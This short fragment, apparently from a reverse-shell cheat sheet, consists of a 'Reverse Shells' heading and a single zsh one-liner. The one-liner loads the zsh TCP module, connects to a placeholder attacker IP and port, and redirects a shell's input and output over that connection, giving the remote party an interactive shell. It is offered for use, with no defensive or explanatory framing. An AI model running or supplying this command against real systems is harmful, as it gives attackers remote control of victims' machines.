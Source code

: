 # Reverse Shells

```
zsh -c 'zmodload zsh/net/tcp && ztcp <attacker_IP> <attacker_PORT> && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
```